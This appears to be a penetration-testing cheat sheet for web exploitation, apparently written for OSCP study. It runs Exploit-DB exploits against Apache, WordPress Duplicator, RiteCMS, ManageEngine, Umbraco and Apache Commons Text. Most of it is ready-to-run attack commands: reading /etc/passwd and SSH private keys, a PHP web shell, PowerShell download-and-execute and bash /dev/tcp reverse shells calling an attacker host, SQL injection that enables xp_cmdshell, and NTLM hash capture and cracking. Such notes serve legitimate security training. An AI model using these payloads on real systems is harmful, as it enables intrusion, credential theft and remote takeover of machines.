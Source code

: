 # 02 - Web Exploitation

Index
- [Exploit DB](#Exploit-DB)
- [Example: Local File Inclusion](#Example-Local-File-Inclusion)
    - [ID 50383 CVE-2021-41773](#ID-50383-CVE-2021-41773)
    - [ID 50420 CVE-2020-11738](#ID-50420-CVE-2020-11738)
    - [ID 50616 File Upload](#ID-50616-File-Upload)
- [Example: reverse shell](#Example-reverse-shell)
    - [ID 48793 CVE-2020-14008](#ID-48793-CVE-2020-14008)
    - [Local File Inclusion](#Local-File-Inclusion)
    - [ID 49488 RCE and Reverse Shell](#ID-49488-RCE-and-Reverse-Shell)
    - [Text2Shell](#Text2Shell)
- [Example: sqli](#Example-sqli)
    - [MSSQL Error, UNION SELECT, reverse shell](#MSSQL-Error-UNION-SELECT-reverse-shell)
- [Example: NTML relay](#Example-NTLM-relay)
    - [URL or PATH fiels](#URL-or-PATH-fiels)

## Exploit DB
Exploit search command example: searchsploit $software $version
``` bash
searchsploit apache 2.4.49
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
...
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)       | multiple/webapps/50383.sh
...
------------------------------------------------------------------------------- ---------------------------------
```

Copy exploit on disk:
``` bash
searchsploit -m multiple/webapps/50383.sh
```

## Example: Local File Inclusion
### ID 50383 CVE-2021-41773
``` bash
bash 50383.sh ./targets.txt /etc/passwd                 ## read file passwd, user enum
bash 50383.sh ./targets.txt /etc/ssh/*pub               ## search ecdsa key
bash 50383.sh ./targets.txt /home/$user/.ssh/id_ecdsa   ## read ecdsa key, possible ssh access
bash 50383.sh ./targets.txt /home/$user/.ssh/id_rsa     ## read rsa key, possible ssh access
```

### ID 50420 CVE-2020-11738
Wordpress Plugin Duplicator 1.3.26:
``` bash
python3 50420.py http://192.168.1.1 /etc/passwd             ## read file passwd, user enum
python3 50420.py http://192.168.1.1 /home/$user/.ssh/id_rsa ## read rsa key, possible ssh access
```

### ID 50616 File Upload
RiteCMS RCE:
- Need valid credentials (ex: admin/admin) to upload a php shell (shell.pHP)
- Need to change the .php extension in .pHP or similar.
``` php
<?php echo system($_GET['cmd']); ?>                         ## shell.pHP
```
Check the RCE:
``` bash
curl http://192.168.1.1:8000/cms/files/shell.pHP?cmd=whoami ## for windows
curl http://192.168.1.1:8000/cms/files/shell.pHP?cmd=id     ## for linux
```
Windows Reverse Shell (powercat.ps1 based):
``` bash
### exploit                                          ### command               ### reverse shell                                    ### KALI                        ### require nc listener: nc -nvlp 443
curl http://192.168.1.1:8000/cms/files/shell.pHP?cmd=powershell -nop -w hidden IEX(New-Object System.Net.WebClient).DownloadString('http://$KALI:8888/powercat.ps1');powercat -c $KALI -p 443 -e powershell
```

## Example: reverse shell
### ID 48793 CVE-2020-14008
ManageEngine reverse shell (auth):
``` bash
python3 48793.py https://192.168.1.1:8443 admin admin $KALI_IP $PORT    ## require nc listener: nc -nvlp 443
```

### Local File Inclusion
Initial access was gained via SSH; an internal web app was running as root.
Unsecure LFI in application script.

Create a reverse shell command file:
``` php
<?php system('bash -c "bash -i >& /dev/tcp/$KALI/443 0>&1"'); ?>         ## require nc listener: nc -nvlp 443
```
Get the vulnerable script from interna (or external if possible):
``` bash
curl http://127.0.0.1:8000/backend/?view=../../../../../../../../home/user/shell.php
```

### ID 49488 RCE and Reverse Shell
Umbraco 7.14 RCE p-o-c:
``` bash
python3 49488.py -u $user -p $password -i 'http://192.168.1.1' -c whoami
```
Exploit + Reverse Shell Payload (powercat based):
``` bash
### exploit                                                    ### command   ### reverse shell as argument                            ### KALI                    ### require nc listener: nc -nvlp 443
python3 49488.py -u $user -p $password -i 'http://192.168.1.1' -c powershell -a "IEX(New-Object System.Net.WebClient).DownloadString('http://$KALI/powercat.ps1');powercat -c $KALI -p 443 -e powershell"
```

### Text2Shell
API with "Apache Commons Text 1.8" library:
``` bash
# vulnerable target
http://192.168.1.1:8888/search?query=TEXT

# exploit                            # need URL encoding   
http://192.168.1.1:8888/search?query=${script:javascript:java.lang.Runtime.getRuntime().exec('PAYLOAD')}

# payload -- try all reverse shell in https://www.revshells.com/ :-(
${script:javascript:java.lang.Runtime.getRuntime().exec('busybox nc 192.168.1.1 1337 -e /bin/bash')}
# encoded version
%24%7Bscript%3Ajavascript%3Ajava%2Elang%2ERuntime%2EgetRuntime%28%29%2Eexec%28%27busybox%20nc%20192%2E168%2E1%2E1%201337%20%2De%20%2Fbin%2Fbash%27%29%7D
```

## Example: sqli

### MSSQL Error, UNION SELECT, reverse shell
Check available fields:
``` text
admin' UNION SELECT 1,2,3,4,5--+
admin' UNION SELECT 1,2,3,4--+
admin' UNION SELECT 1,2,3--+
admin' UNION SELECT 1,2--+
```

Enable xp_cmdshell:
``` text
admin' UNION SELECT 1,2; EXEC sp_configure 'show advanced options', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
admin' UNION SELECT 1,2; EXEC sp_configure 'xp_cmdshell', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
```

HTA_listener:
``` bash
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST $KALI     ## set attacker IP
LHOST => $KALI
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) > 
[*] Started reverse TCP handler on 192.168.45.226:4444 
[*] Using URL: http://$KALI:8888/Kl4Su1ud80QLi.hta          ## HTA url, reverse shell target
[*] Server started.
```

Exploiting:
``` text
admin' UNION SELECT 1,2; EXEC xp_cmdshell 'mshta.exe http://$KALI:8888/Kl4Su1ud80QLi.hta'--+
```

## Example: NTML relay

### URL or PATH fiels
Scenario: there is a FIELD in the web app to URL or other PATH and the application test the PATH on the submit.
Verify the URL/PATH test with and interna HTTP server (ex: python3 -m http.server) or other impacket tools (ex: impacket-smbserver TMP /tmp).

#### Get NTLMv2 hash:
Start responder:
``` bash
sudo responder -I tun0
```
Use the web application to the the URL/PATH request:
![webapp](https://github.com/roccosicilia/OSCP_cheatsheet/blob/main/assets/webapp-path-test.png?raw=true "webapp")

Get the NTLM hash:
``` text
[SMB] NTLMv2-SSP Client   : 192.168.1.1
[SMB] NTLMv2-SSP Username : DOMAIN\test_user
[SMB] NTLMv2-SSP Hash     : test_user::DOMAIN:00000000000000000000000000000000...
```

Crack the hash:
``` bash
hashcat -m 5600 file.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```